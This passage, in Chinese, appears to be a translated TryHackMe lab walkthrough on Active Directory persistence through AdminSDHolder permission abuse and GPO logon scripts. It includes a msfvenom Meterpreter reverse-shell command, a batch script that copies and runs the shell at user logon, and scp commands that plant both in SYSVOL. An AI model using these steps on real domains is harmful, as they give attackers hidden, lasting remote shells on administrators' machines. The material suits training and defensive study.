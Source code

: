 请稍等片刻，然后查看受保护组（如域管理员组）的安全权限（可以使用搜索命令查找此组）：

<img src='https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/5a2c03dd079b07a9fad3d9933547029d.png' />

可以看出，我们的低特权用户可以完全控制组。

### 蓝队正在走下坡路

想象一下，将其与上一个任务的嵌套组相结合。就像蓝队通过多次组更改撤销您的访问权限一样，60 分钟后，您可以再次执行此操作。除非蓝队了解权限是通过 AdminSDHolder 组更改的，否则他们每 60 分钟就会挠头。由于持久性通过合法的 AD 服务传播，因此每次发生持久性时，他们很可能都不会更明智。如果确实要保留，可以向 AdminSDHolder 组中的域用户组授予完全控制权限，这意味着任何低特权用户都将被授予对所有受保护组的完全控制权限。将其与完整的 DC 同步相结合意味着蓝队将不得不重置域中的每个凭据才能完全清除我们。

---

我们将回顾的最后一个持久性技术是通过组策略对象 （GPO） 的持久性。此时，您应该熟悉基于我们讨论过的所有不同枚举、攻击和利用技术的 GPO。但是，GPO 也非常适合部署持久性。

AD 中的组策略管理提供了一种中心机制来管理所有已加入域的计算机的本地策略配置。这包括配置，例如受限组的成员身份、防火墙和 AV 配置，以及启动时应执行的脚本。虽然这是一个很好的管理工具，但攻击者可能会针对它在整个资产中部署持久性。更糟糕的是，攻击者通常可以隐藏GPO，以至于几乎不可能将其删除。

### 域范围的持久性

以下是一些常见的 GPO 持久性技术：

    1.受限组成员身份 - 这可能允许我们对域中的所有主机进行管理访问
    2.登录脚本部署 - 这将确保每次用户向域中的主机进行身份验证时，我们都会收到 shell 回调。

可以部署许多不同的钩子。您可以使用 GPO 来了解其他钩子。由于我们已经在利用 AD 房间中使用了第一个钩子，即受限组成员身份。现在让我们专注于第二个钩子。虽然可以访问所有主机很好，但通过确保我们在管理员积极处理它们时可以访问它们，它可以更好。为此，我们将创建一个链接到管理员 OU 的 GPO，这将允许我们在每次其中一个主机向主机进行身份验证时在主机上获取 shell。

### 制备

在我们创建 GPO 之前。我们首先需要创建我们的 shell、侦听器和将执行 shell 的实际 bat 文件。让我们首先生成一个可以使用的基本可执行 shell：

    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > <username>_shell.exe


确保将您的用户名添加到二进制名称中，以避免覆盖其他用户的外壳。Windows允许我们通过登录GPO执行Batch或PowerShell脚本。批处理脚本通常比 PowerShell 脚本更稳定，因此让我们创建一个将可执行文件\<username>_script.bat复制到主机并在用户进行身份验证后执行它。创建在 AttackBox 上调用的以下脚本：

    copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\<username>_shell.exe C:\tmp\<username>_shell.exe && timeout /t 20 && C:\tmp\<username>_shell.exe

您将看到该脚本执行了三个与 链接在一起的命令。该脚本会将二进制文件从 SYSVOL 目录复制到本地计算机，然后等待 20 秒，最后执行二进制文件。&&

我们可以使用 SCP 和我们的管理员凭据将两个脚本复制到 SYSVOL 目录：

    $thm scp am0_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/

    $thm scp am0_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/

最后，让我们开始我们的 MSF 侦听器

现在我们的准备工作已经完成，我们终于可以创建将执行它的 GPO。您需要通过 RDP 连接到 THMWRK1，并使用以管理员身份运行的 runas 窗口执行后续步骤。

### 通用数据保护办公室创建

